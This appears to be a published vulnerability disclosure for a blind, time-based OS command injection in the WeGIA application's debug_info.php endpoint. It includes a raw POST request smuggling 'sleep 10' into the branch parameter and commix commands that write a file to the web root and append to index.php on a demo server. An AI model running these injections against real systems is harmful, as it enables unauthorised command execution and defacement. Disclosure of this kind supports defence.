




## CVE-2025-50201: OS Command Injection (Blind Time-Based) in `debug_info.php` parameter `branch`

> *CVE Publication: https://www.cve.org/CVERecord?id=CVE-2025-50201*

## Summary

<p style="text-align: justify;">An OS Command Injection vulnerability was identified in the <code>/html/configuracao/debug_info.php</code> endpoint. The <code>branch</code> parameter is not properly sanitized before being concatenated and executed in a shell command on the server's operating system.</p>

<p style="text-align: justify;">This flaw allows an unauthenticated attacker to execute arbitrary commands on the server with the privileges of the web server user <code>(www-data)</code>. This completely compromises the Confidentiality, Integrity, and Availability of the application and the underlying server.</p>

## Details

<p style="text-align: justify;">The vulnerability can be triggered by sending a POST request to the vulnerable endpoint and injecting shell metacharacters (such as ;) into the branch parameter. The server executes the supplied input without validation. The vulnerability was confirmed to be "Blind," as the command's output is not directly reflected in the HTTP response, thus requiring time-based exploitation techniques.</p>

Initial Vulnerable Request:

````terminal
POST /html/configuracao/debug_info.php HTTP/1.1
Host: demo.wegia.org
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

branch=master; sleep 10&action=switch
````

<p style="text-align: justify;">The server's delayed response confirmed the vulnerability.</p>

## PoC

<p style="text-align: justify;">To demonstrate a tangible impact on system integrity, the commix tool was used to inject an echo command that creates a new HTML file in a web-accessible directory on the server.</p>

### 1. Attack Command:

<p style="text-align: justify;">The following command was executed to create the prova_tcc.html file on the server with custom content:</p>

<pre><code>python3 commix.py -u "https://demo.wegia.org/html/configuracao/debug_info.php" \--data="branch=master&amp;action=switch" -p "branch" -technique="time" \--os-cmd='echo "&lt;h1&gt;Server Hacked - Server Access Confirmed&lt;/h1&gt;" &gt; prova_tcc.html'</code></pre>



<pre><code>python3 commix.py -u "https://demo.wegia.org/html/configuracao/debug_info.php" --data="branch=master&action=switch" -p "branch" --technique="time" --time-sec=2 --os-cmd='echo "teste" >> ../../index.php'</code></pre>



### 2. Verification:

<p style="text-align: justify;">After the command execution, the created file became publicly accessible via the browser at the following URL: <code>https://demo.wegia.org/html/configuracao/prova_tcc.html</code></p>


    
<p style="text-align: justify;">After the command execution, the page <code>https://demo.wegia.org/</code> has been modified like the imagem bellow:</p>



## Impact

<p style="text-align: justify;">Successful exploitation of this vulnerability allows an unauthenticated attacker to:
  <ul>
    <li>Compromise Confidentiality: Read sensitive files from the server, including the application's source code, API keys, and configuration files.</li>
    <li>Compromise Integrity: Modify or delete any file to which the www-data user has write permissions, allowing for website defacement, malware injection, or application destruction.</li>
    <li>Compromise Availability: Execute commands that consume system resources (CPU, Memory), leading to a Denial of Service (DoS).</li>
    <li>Act as a Pivot: Use the compromised server as a base to attack other systems on the internal network.</li>
  </ul>
</p>

## Reference

[https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-52p5-5fmw-9hrf](https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-52p5-5fmw-9hrf)

## Reporter

[Pedro Lyrio](https://github.com/Pedro-Lyrio)

## Contributor

[](https://www.linkedin.com/in/diegocbcastro/) [Diego Castro](https://www.linkedin.com/in/diegocbcastro/)

> *By: [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)*